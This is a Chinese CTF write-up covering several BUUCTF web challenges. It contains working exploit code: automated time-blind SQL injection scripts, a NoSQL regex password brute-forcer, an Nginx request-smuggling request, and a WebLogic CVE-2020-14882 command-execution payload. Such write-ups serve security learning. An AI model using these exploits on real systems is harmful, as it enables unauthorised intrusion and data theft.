

[buuctf] web区 write up 8
===

## [2022DASCTF MAY 出题人挑战赛] Power Cookie

### 题解

点登录, 然后抓包, 可以看见服务器返回了一个 cookie:


所以传 cookie: admin=1 过去, 直接显示了 flag;

## [2021DASCTF 实战精英夏令营暨 DASCTF July X CBCTF 4th]cat flag

### 代码审计

开门见源码:

```php
<?php

if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    if (!preg_match('/flag/i',$cmd))
    {
        $cmd = escapeshellarg($cmd);
        system('cat ' . $cmd);
    }
} else {
    highlight_file(__FILE__);
}
?>
```

这里应该是 `escapeshellarg()` 逃逸;

### 过滤函数逃逸

#### 原函数

> [谈escapeshellarg绕过与参数注入漏洞](https://www.leavesongs.com/PENETRATION/escapeshellarg-and-parameter-injection.html)

- `escapeshellarg()`

这个函数本身的作用是: **给字符串增加一个单引号并且在任何单引号前面添加一个 `\`**; 注意这个函数只能保证传入参数在进入 shell 时能被正确执行, 不能在 WAF 中确保安全;

- `escapeshellcmd()`

这个函数的作用是: 以下字符之前插入 `\`: ``&#;`|*?~<>^()[]{}$\、\x0A`` 和 `\xFF`;

注入时, 这个 `escapeshellcmd()` 可以拿来做 bypass, 先用不可见字符, 来绕过 `preg_match()` 正则匹配, 之后如果期间执行了一次 `escapeshellcmd()` 函数, 那么不可见字符将会被消除;

#### 典型注入

```php
$a = escapeshellarg('Hello\'');
system(echo $a);

// 执行结果是: Hello',
// 因为转义后 $a 为 'Hello'\''' 
// (\' => '\''')
// shell 中执行 echo 'Hello'\''' 结果为 Hello'
```

#### 注入点 1

> 值得一提的是, 这个注入本身利用的是指令本身对参数选项的支持, 而不是 PHP 本身的问题, 因此在 Java, Python 等语言中同样可以运用;

> 例如 python 中:
> 
> ```python
> import subprocess
>
> query = 'id'
> r = subprocess.run(['git', 'grep', '-i', '--line-number', query, 'master'], cwd='/tmp/vulhub')
> ```

> 那么只要令 query = `–open-files-in-pager=id` 就完成了注入;

注入的本质是寻找参数值和参数选项的点, 特别是还有等号的, 例如: `–open-files-in-pager=id`;

~不过本题没有用上~

#### 注入点 2

**前提: 未强制 ASCII 编码**

编码不统一导致超过 ASCII 编码上限的字符(`%7F` 以上)可以组合 `preg_match()` 函数来绕过正则匹配:

例如过滤 `/flag/i` :

```
fl%81ag
```

### 查看日志文件

根据提示, 管理员曾经看过flag, 访问:

```
?cmd=/var/log/nginx/access.log
```


然后试试 cmd = `/this_is_final_fla%80g_e2a457126032b42d.php`, 没有结果, 想到日志里的 `GET /` 应该是指的网站根目录, 那这里把 `/` 去掉试试:

查看源代码:


## [Dest0g3 520迎新赛]SimpleRCE

### 题解

开门源码:

```php
 <?php
highlight_file(__FILE__);
$aaa=$_POST['aaa'];
$black_list=array('^','.','`','>','<','=','"','preg','&','|','%0','popen','char','decode','html','md5','{','}','post','get','file','ascii','eval','replace','assert','exec','$','include','var','pastre','print','tail','sed','pcre','flag','scan','decode','system','func','diff','ini_','passthru','pcntl','proc_open','+','cat','tac','more','sort','log','current','\\','cut','bash','nl','wget','vi','grep');
$aaa = str_ireplace($black_list,"hacker",$aaa);
eval($aaa);
?> 
```

注意到没有过滤单引号和 `~` 和 `;` 考虑取反:

```php
<?php
$a='payload';
// system
// ls /
// ...
echo (urlencode(~$a));
```

注意 payload 的格式是 `(~函数名取反)` `(~参数取反)` `;`:


找到 flag;



## [NewStarCTF 2023 公开赛道]midsql

### 题解

打开网站, 下方有部分源码:


空格发现被过滤:


不过可以用 `/**/` 绕过 (或者用换行符 `%0a`);

接下来尝试报错和布尔注入, 发现除了 WAF 之外只有一种返回结果, 那么只能考虑时间盲注了;

继续尝试还可以发现 `=` 也被过滤;

尝试 payload:

```
1&&sleep(5)/**/--
```

发现网页回显明显变慢, 确认此处就应该是时间盲注;

写了个自动化的盲注脚本, 踩了几个坑, 基本都写注释里了, 另外时间盲注需要使用 `time.time` 来明确来回时间差:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# @Time    : 2025/09/08 14:55

import requests
import time

url = 'http://42e742a3-7f56-42d8-a553-087cc62d36f0.node5.buuoj.cn:81'

proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}


def sqli_db_length():
    for i in range(1, 100):
        payload = f"1&&if(length(database())/**/like/**/{i},sleep(5),1)/**/--"
        if i % 3 == 0:
            print(f"[*] Testing length: {i}")
        start = time.time()
        r = requests.get(url, params={'id': payload}, proxies=proxies)
        end = time.time()
        if end - start >= 5:
            print(f"[+] Database length is {i}")
            return i
# length = 3


def sqli_db_name(dblen):
    '''
    获取数据库名称
    '''
    dbname = ''
    for i in range(1, dblen + 1):
        for j in range(32, 127):
            payload = f"1&&if(ascii(substr(database(),{i},1))/**/like/**/{j},sleep(5),1)/**/--"
            # if j % 5 == 0:
            #     print(f"[*] Testing position {i}, ASCII: {j}")
            start = time.time()
            r = requests.get(url, params={'id': payload}, proxies=proxies)
            end = time.time()
            if end - start >= 5:
                print(
                    f"[+] Found character at position {i}: {chr(j)}, ASCII: {j}")
                dbname += chr(j)
                break
    print(f"[+] Database name is: {dbname}")
    return dbname
# dbname = 'c\f'


def sqli_table_name(dbname):
    '''
    爆出所有表名, 返回一个 ',' 分割的列表
    '''
    table_name = ''
    for j in range(1, 21):  # 假设表名长度不超过20
        for k in range(32, 127):
            payload = f"1&&if(ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/database()),{j},1))/**/like/**/{k},sleep(5),1)/**/--"
            # if k % 5 == 0:
            #     print(f"[*] Testing table , position {j}, ASCII: {k}")
            start = time.time()
            r = requests.get(url, params={'id': payload}, proxies=proxies)
            end = time.time()
            if end - start >= 5:
                print(
                    f"[+] Found character at position {j} of group_table_name : {chr(k)}, ASCII: {k}")
                table_name += chr(k)
                break
        if not table_name or len(table_name) < j:
            print(f"[+] Table names are: {table_name}")
            tablelist = table_name.split(',')
            print(f"[+] Table list: {tablelist}")
            return tablelist


def sqli_column_name(tablename, dbname):
    '''
    爆出列名, 返回一个 ',' 分割的列表
    '''
    column_name = ''
    for j in range(1, 21):  # 假设列名长度不超过20
        for k in range(32, 127):
            payload = f"1&&if(ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/'{tablename}'/**/and/**/table_schema/**/like/**/'{dbname}'),{j},1))/**/like/**/{k},sleep(5),1)/**/--"
            # if k % 5 == 0:
            #     print(f"[*] Testing column , position {j}, ASCII: {k}")
            start = time.time()
            r = requests.get(url, params={'id': payload}, proxies=proxies)
            end = time.time()
            if end - start >= 5:
                print(
                    f"[+] Found character at position {j} of group_column_name : {chr(k)}, ASCII: {k}")
                column_name += chr(k)
                break
        if not column_name or len(column_name) < j:
            print(f"[+] Column names are: {column_name}")
            columnlist = column_name.split(',')
            print(f"[+] Column list: {columnlist}")
            return columnlist

def sqli_value(tablename, columnname, dbname):
    '''
    爆出字段值, 返回一个 ',' 分割的列表
    '''
    value = ''
    for j in range(1, 21):  # 假设列名长度不超过20
        for k in range(32, 127):
            payload = f"1&&if(ascii(substr((select/**/group_concat({columnname})/**/from/**/{tablename}/**/where/**/table_schema/**/like/**/'{dbname}'),{j},1))/**/like/**/{k},sleep(5),1)/**/--"
            # if k % 5 == 0:
            #     print(f"[*] Testing value , position {j}, ASCII: {k}")
            start = time.time()
            r = requests.get(url, params={'id': payload}, proxies=proxies)
            end = time.time()
            if end - start >= 5:
                print(
                    f"[+] Found character at position {j} of group_value : {chr(k)}, ASCII: {k}")
                value += chr(k)
                break
        if not value or len(value) < j:
            print(f"[+] Values are: {value}")
            valuelist = value.split(',')
            print(f"[+] Value list: {valuelist}")
            return valuelist

def safe_sqlname(dbname):
    '''
    处理数据库名或表名中的特殊字符
    '''
    # 先转义反斜杠, 再转义单引号
    return dbname.replace("\\", "\\\\").replace("'", "''")


if __name__ == '__main__':

    # 数据库长度
    dblen = sqli_db_length()
    dbname = ''
    if dblen:
        # 数据库名称
        dbname = sqli_db_name(dblen)
    if dbname is not None:
        # 数据库表名
        # 如果dbname已知, 可以传入dbname
        tablename = sqli_table_name(dbname=safe_sqlname(dbname))
        if tablename:
            print("[+] Successfully retrieved table names.")
            for t in tablename:
                columnname = sqli_column_name(
                    tablename=safe_sqlname(t), dbname=safe_sqlname(dbname))
                if columnname:
                    print(f"[+] Successfully retrieved column names for table {t}.")
                    value = sqli_value(
                        tablename=safe_sqlname(t), columnname=safe_sqlname(columnname[0]), dbname=safe_sqlname(dbname))
                    if value:
                        print(f"[+] Successfully retrieved values for table {t}, column {columnname[0]}.")
        else:
            print("[-] Failed to retrieve table names.")
```

稍微有点慢, 优化一下, 用二分法, 顺便处理一下关系:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# @Time    : 2025/09/08 14:55

import requests
import time

url = 'http://42e742a3-7f56-42d8-a553-087cc62d36f0.node5.buuoj.cn:81'

proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}


def time_inject(payload):
    """
    执行一次注入请求
    """
    start = time.time()
    r = requests.get(url, params={'id': payload}, proxies=proxies)
    end = time.time()
    return end - start >= 5


def binary_search_char(payload_template, pos):
    """
    二分查找某一位字符
    """
    low, high = 32, 126
    while low <= high:
        mid = (low + high) // 2
        payload = payload_template.format(pos=pos, mid=mid)
        # 判断当前字符 ASCII 是否大于 mid
        if time_inject(payload):
            low = mid + 1
        else:
            high = mid - 1
    # 检查是否真的有字符
    if 32 <= low <= 126:
        # 再判断这一位是不是空
        payload = payload_template.format(pos=pos, mid=31)
        if time_inject(payload):  # ascii > 31
            return chr(low)
    return None


def sqli_db_length():
    low, high = 1, 100
    while low <= high:
        mid = (low + high) // 2
        payload = f"1&&if(length(database())>{mid},sleep(5),1)/**/--"
        if time_inject(payload):
            low = mid + 1
        else:
            high = mid - 1
    print(f"[+] Database length is {low}")
    return low


def sqli_db_name(dblen):
    '''
    爆出当前库名
    '''
    dbname = ''
    for i in range(1, dblen + 1):
        payload_template = "1&&if(ascii(substr(database(),{pos},1))>{mid},sleep(5),1)/**/--"
        ch = binary_search_char(payload_template, i)
        if ch:
            print(
                f"[+] Found character at position {i}: {ch}, ASCII: {ord(ch)}")
            dbname += ch
        else:
            break
    print(f"[+] Database name is: {dbname}")
    return dbname


def sqli_table_name(dbname):
    '''
    爆出所有表名, 返回一个列表
    '''
    table_name = ''
    for j in range(1, 21):
        payload_template = ("1&&if(ascii(substr((select/**/group_concat(table_name)"
                            "/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/database()),{pos},1))>{mid},sleep(5),1)/**/--")
        ch = binary_search_char(payload_template, j)
        if ch:
            print(
                f"[+] Found character at position {j} of group_table_name : {ch}, ASCII: {ord(ch)}")
            table_name += ch
        else:
            print(f"[+] Table names are: {table_name}")
            tablelist = table_name.split(',')
            print(f"[+] Table list: {tablelist}")
            return tablelist


def sqli_column_name(tablename, dbname):
    '''
    爆出某个表的所有列名, 返回一个列表
    '''
    column_name = ''
    for j in range(1, 21):
        payload_template = ("1&&if(ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/'{t}'/**/and/**/table_schema/**/like/**/'{d}'),{pos},1))>{mid},sleep(5),1)/**/--").replace(
            "{t}", tablename).replace("{d}", dbname)
        ch = binary_search_char(payload_template, j)
        if ch:
            print(
                f"[+] Found character at position {j} of group_column_name : {ch}, ASCII: {ord(ch)}")
            column_name += ch
        else:
            print(f"[+] Column names are: {column_name}")
            columnlist = column_name.split(',')
            print(f"[+] Column list: {columnlist}")
            return columnlist


def sqli_value(tablename, columnname):
    '''
    爆出某个表的某列的所有值, 返回一个列表
    '''
    value = ''
    for j in range(1, 100):
        payload_template = ("1&&if(ascii(substr((select/**/group_concat({c})/**/from/**/{t}),{pos},1))>{mid},sleep(5),1)/**/--").replace("{c}", columnname).replace("{t}", tablename)
        ch = binary_search_char(payload_template, j)
        if ch:
            print(
                f"[+] Found character at position {j} of group_value : {ch}, ASCII: {ord(ch)}")
            value += ch
        else:
            print(f"[+] Values are: {value}")
            valuelist = value.split(',')
            print(f"[+] Value list: {valuelist}")
            return valuelist


def safe_sqlname(dbname):
    '''
    处理数据库名或表名中的特殊字符
    '''
    return dbname.replace("\\", "\\\\").replace("'", "''")


if __name__ == '__main__':
    dblen = sqli_db_length()
    dbname = ''
    if dblen:
        dbname = sqli_db_name(dblen)
    if dbname is not None:
        tablename = sqli_table_name(dbname=safe_sqlname(dbname))
        if tablename:
            print("[+] Successfully retrieved table names.")
            for t in tablename:
                columnname = sqli_column_name(
                    tablename=safe_sqlname(t), dbname=safe_sqlname(dbname))
                if columnname:
                    print(
                        f"[+] Successfully retrieved column names for table {t}.")
                    for c in columnname:
                        value = sqli_value(
                            tablename=safe_sqlname(t), columnname=safe_sqlname(c))
                        if value:
                            print(
                                f"[+] Successfully retrieved values for table {t}, column {c}.")
        else:
            print("[-] Failed to retrieve table names.")

```

这样平均只要 7 次就可以找到, 极大提升了效率;


实际上还可以加上并发控制, 不过暂时没这水平;


成功爆出 flag 。

## [GKCTF 2021] hackme 

打开是一个登录界面, 源码中提示是 nosql 注入; 抓包发现是传的 json;


### NoSQL

> NoSQL 即 Not Only SQL, 意即 “不仅仅是SQL”。NoSQL 是一项全新的数据库革命性运动, 早期就有人提出, 发展至 2009 年趋势越发高涨。NoSQL的拥护者们提倡运用非关系型的数据存储, 相对于铺天盖地的关系型数据库运用, 这一概念无疑是一种全新的思维的注入。

一般来说这里用的都是 MongoDB, 游戏存档常用这种方式存储, 非关系型存储不需要严格数据对齐; MongoDB 的数据项是**文档**, 数据结构是**键值对**;

#### 概念对比

| RDBMS  |              MongoDB              |
| :----: | :-------------------------------: |
| 数据库 |              数据库               |
|  表格  |               集合                |
|   行   |               文档                |
|   列   |               字段                |
| 表联合 |             嵌入文档              |
|  主键  | 主键 |

> MongoDB 提供了 key 为 `_id`

#### 数据库

MongoDB 中可以建立多个数据库, MongoDB 的单个实例可以容纳多个独立的数据库, 每一个都有自己的集合和权限, 不同的数据库也放置在不同的文件中。

使用 `show dbs` 命令可以显示所有数据库的列表:

```bash
$ ./mongo
MongoDB shell version: 3.0.6
connecting to: test
> show dbs
admin   0.078GB
config  0.078GB
local   0.078GB
>
```

执行 `db` 命令可以显示当前数据库对象或集合:

```bash
$ ./mongo
MongoDB shell version: 3.0.6
connecting to: test
> db
test
>
```

#### 集合

集合, 在关系型数据库里就等于表格, 不同点在于集合没有固定的结构; 查看已有集合, 使用指令 `show collections` 或 `show tables`:

```bash
> show collections
all_users
> show tables
all_users
>
```

#### NoSQL 注入

NoSQL 注入和普通 SQL 注入最大的区别在于, 普通注入始终是遵循 SQL 语法的, 注入的最终目的是拼出一条可执行的 SQL 语句, 但是 NoSQL **没有通用查询语言**, 查询是使用应用程序的编程语言编写的, 可能是 *PHP, Python, ...*, NoSQL 不仅限于在数据库中执行指令, 更可以直接在应用程序中执行代码, 有点 RCE 的意思;

> 参考博客: [NoSQL 注入从零到精通](https://xz.aliyun.com/news/9363)

根据题目环境, 这里应该是 PHP 注入;

#### 典型利用

```
username[$ne]=1&password[$ne]=1
```

原理 (以 JS 为例, php 是类似的):

1. 后端解析

    后端, 例如 ExtJS 中间件会把 `[]` 解析成一个 **JavaScript 对象**:

    ```javascript
    // 后端代码拿到的 userInput 对象
    const userInput = {
    "username": {
        "$ne": "1" 
    },
    "password": {
        "$ne": "1"
    }
    };
    ```

2. 网站对用户输入不加过滤校验的直接对比:

    ```javascript
    // --- 存在漏洞的代码示例 ---

    // 从请求中获取解析后的对象
    const userInput = req.query; 

    // 直接将用户输入作为查询条件！！！
    // 这是漏洞的根源
    const user = await User.findOne(userInput);

    if (user) {
    // 找到了用户, 登录成功！
    console.log("Login successful for user:", user.username);
    res.send("Login successful!");
    } else {
    // 没找到用户, 登录失败
    res.send("Invalid credentials.");
    }
    ```

3. 数据库执行被篡改的查询 (底层原理)

    实际执行的操作指令中, `$ne` 是 MongoDB 的**查询操作符**, 意思是 **"Not Equal" (不等于)**。

    所以整个查询语句变成了: *查找一个 username 不为 1, password 也不为 1 的用户*; 对于一个正常的数据库来说, 这就是永真查询;

此外, `$ne` 也可以替换为 `$eq`, 即相等 (equal), 注入原理一样;

### unicode 绕过 + 布尔盲注

根据提示用 unicode 逃逸:


这里的提示表名可能需要爆破具体的用户名和密码, 用 `$eq` 先探测出有 admin 账号:


现在利用回显来进行盲注, 利用 `regex` 来正则匹配, 原理就是用 `^[password].*` 来一位一位爆破, 本质上是个布尔盲注:

```python
import requests
import time

url = 'http://node5.buuoj.cn:25774/login.php'

proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

# 1. 定义所有可能的字符
charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
password = ''
found = True

print("[+] Starting blind NoSQL injection...")

# 2. 循环直到找不到新字符为止
while found:
    found = False
    for char in charset:
        # 3. 构造 payload
        payload = f"^{password}{char}.*"

        # 使用双反斜杠 '\\' 来在 Python 字符串中表示一个字面上的 '\'
        # 这样 Python 就不会解析 \uXXXX, 而是把它当作普通文本
        raw_json_string = f'{{"username":{{"\\u0024\\u0065\\u0071":"admin"}},"password":{{"\\u0024\\u0072\\u0065\\u0067\\u0065\\u0078":"{payload}"}}}}'

        headers = {
            'Content-Type': 'application/json; charset=utf-8'
        }

        try:
            res = requests.post(url, data=raw_json_string,
                                headers=headers, proxies=proxies)

            # 4. 判断响应内容
            if "但没" in res.text:
                password += char
                print(
                    f"Found character: {char} -> Current password: {password}")
                found = True
                break

        except requests.RequestException as e:
            print(f"An error occurred: {e}")
            time.sleep(1)
        except ValueError:
            print(f"Failed to decode JSON from response: {res.text}")


print(f"\nInjection finished. Final password: {password}")
```

爆出密码: 


之后登录, 是一个文件包含页面:


不过读不出 `/flag`, 会显示 `flag is in the Intranet`;

### 文件包含漏洞

提示中有写, 留意 server 内容, 那么先找找环境文件:


继续找 nginx 配置:


可以看到后台还有一个 weblogic 服务;

> *到这里卡住了, 剩下的只能看 wp*

```nginx
resolver 127.0.0.11 valid=0s ipv6=off;
resolver_timeout 10s;
```

注意这一段配置:

```nginx
resolver address ... [valid=time] [ipv6=on|off];
```

这段配置说明 nginx 的版本大概率在 1.17.7 之前, 因为这个版本还不支持`status_zone`, `persistent` 参数, 并且 `ipv6=off` 也是**老版本的标志**

### CVE-2019-20372

**CVE-2019-20372-Nginx error_page 请求走私**: Nginx 1.17.7 之前版本中 error_page 存在安全漏洞。攻击者可利用该漏洞读取未授权的 Web 页面。

在这个漏洞中, error_page 会进行一次重定向, 来命中目标页面:

```
GET /undefined HTTP/1.1
Host: node4.buuoj.cn:28946
Content-Length: 0
Transfer-Encoding: chunked

GET /console/login/LoginForm.jsp HTTP/1.1
Host: weblogic
```

> 这里直接用 BurpSuite 是不行的, 因为会自动更新 `Content-Length`, 改用 python:

攻击原理:

- **第一个包 (毒化请求)**：发送一个精心构造的请求。前端 Nginx 和后端 WebLogic 对它有不同的理解。

    - 前端认为它是一个完整的请求, 处理完就结束了。
    - 后端认为它**只处理了一半**, 把多余的部分, 也就是对目标网页的请求 (GET /console...) **留在了 TCP 缓冲区**里。

- **第二个包 (触发请求)** ：紧接着发送一个普通的请求 (比如 GET /anything) 。这个请求本来应该返回 404 error_page 。
    - 这个请求到达后端时, 后端发现缓冲区里还有上次剩下的数据 (GET /console...) 。后端会把缓冲区里的请求拿出来优先执行。
    - 错误的响应：后端执行了缓冲区里的 `GET /console...`, 生成了 WebLogic 登录页面的响应。这个响应被发送回来, 匹配给了第二个请求。

> 这里还需要知道 weblogic 的默认登录页面是 `/console/login/LoginForm.jsp`; 由于未知原因这里一直利用不成功, 可能是靶场问题? 

```python
GET /undefined HTTP/1.1
Host: node4.buuoj.cn:28946
Content-Length: 0
Transfer-Encoding: chunked

GET /console/login/LoginForm.jsp HTTP/1.1
Host: weblogic
```

得到 weblogic 版本为 12.2.1.4.0; 这个版本在 CVE-2020-14882 射程内;

### CVE-2020-14882

绕过登录:

```python
import socket

sSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sSocket.connect(("node5.buuoj.cn", 25369))
payload = b'HEAD / HTTP/1.1\r\nHost: node4.buuoj.cn\r\n\r\nGET /console/css/%252e%252e%252fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt(); HTTP/1.1\r\nHost:weblogic\r\ncmd: /readflag\r\n\r\n'
#payload = b'GET /a HTTP/1.1\r\nHost: node3.buuoj.cn\r\nContent-Length: 66\r\n\r\nGET /console/login/LoginForm.jsp HTTP/1.1\r\nHost: weblogic\r\n\r\n'
sSocket.send(payload)
sSocket.settimeout(2)
response = sSocket.recv(2147483647)
while len(response) > 0:
    print(response.decode())
    try:
        response = sSocket.recv(2147483647)
    except:
        break
sSocket.close()
```

### 总结

这道题非常全面并且有难度, 考察点有几个: nosql, 文件包含漏洞, nginx 走私, weblogic 登录绕过;